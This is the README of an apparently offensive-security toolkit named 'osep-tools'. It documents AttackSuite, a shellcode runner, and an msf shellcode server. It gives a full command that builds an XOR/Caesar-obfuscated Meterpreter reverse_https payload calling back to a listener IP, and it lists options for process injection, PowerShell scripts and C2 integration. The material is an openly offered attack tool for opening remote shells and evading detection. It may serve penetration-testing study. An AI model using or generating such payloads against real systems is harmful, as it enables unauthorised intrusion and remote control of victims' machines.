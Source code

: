 # osep-tools

## AttackSuite

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME] [--mhome MHOME]
                      [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC] [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf, 'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
```

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```



